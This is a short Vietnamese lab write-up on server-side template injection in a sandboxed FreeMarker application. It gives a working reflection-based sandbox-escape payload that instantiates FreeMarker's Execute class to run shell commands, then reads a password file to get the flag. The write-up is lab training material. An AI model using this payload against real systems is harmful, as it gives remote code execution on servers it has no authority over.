


# Lab: Server-side template injection in a sandboxed environment

## Phát hiện

- Template engine: **FreeMarker**
- Sandbox environment ngăn chặn truy cập trực tiếp

## Khai thác

### Bước 1: Bypass sandbox bằng reflection

Payload ban đầu sử dụng object `article`:

```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```



**Lỗi**: Object `article` không tồn tại trong template.

### Bước 2: Điều chỉnh với object có sẵn

Sử dụng object `product` thay thế:

```
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```



✓ Thực thi lệnh `id` thành công → có RCE

### Bước 3: Trích xuất flag

1. Liệt kê file: `ls` → tìm thấy `my_password.txt`
2. Đọc nội dung: `cat my_password.txt`

## Kết quả

**Flag**: `The password is: lvtogrut51ve3lkzc1ap`
